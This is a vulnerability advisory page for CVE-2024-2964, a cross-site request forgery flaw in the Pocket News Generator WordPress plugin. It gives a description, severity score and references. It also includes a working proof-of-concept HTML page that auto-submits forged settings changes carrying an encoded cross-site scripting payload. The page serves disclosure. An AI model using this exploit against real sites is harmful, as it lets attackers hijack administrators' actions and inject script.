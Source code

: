 ```yaml
---
layout: page
title: CVE-2024-2964
subtitle: Pocket News Generator <= 0.2.0 - Cross-Site Request Forgery to Settings Update
---
```

## Description
The Pocket News Generator plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 0.2.0. This is due to missing or incorrect nonce validation on the option_page() function. This makes it possible for unauthenticated attackers to update the plugin's settings via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 5.4 (Medium) - [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N)

## Affected Version
    <= 0.2.0

## PoC :
```
<html>
  <!-- eneriiii<3-->
  <body>
    <form action="http://[ASSETS]/wp-admin/options-general.php?page=pocket_news_generator_options_page" method="POST">
      <input type="hidden" name="consumer&#95;key" value="eneriiiiiiiiiiii&lt;3&lt;&#33;&#45;&#45;&gt;&lt;Svg&#32;OnLoad&#61;&#40;confirm&#41;&#40;666&#41;&#45;&#45;&gt;&apos;&gt;" />
      <input type="hidden" name="access&#95;token" value="eneriiiiiiiiiiii&lt;3&lt;&#33;&#45;&#45;&gt;&lt;Svg&#32;OnLoad&#61;&#40;confirm&#41;&#40;666&#41;&#45;&#45;&gt;&apos;&gt;" />
      <input type="hidden" name="format" value="eneriiiiiiiiiiii&lt;3&lt;&#33;&#45;&#45;&gt;&lt;Svg&#32;OnLoad&#61;&#40;confirm&#41;&#40;666&#41;&#45;&#45;&gt;&apos;&gt;" />
      <input type="hidden" name="action" value="register" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Reference
- https://plugins.trac.wordpress.org/browser/pocket-news-generator/trunk/pocket-news-generator.php#L77
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/pocket-news-generator/pocket-news-generator-020-cross-site-request-forgery-to-settings-update
- https://www.cve.org/CVERecord?id=CVE-2024-2964


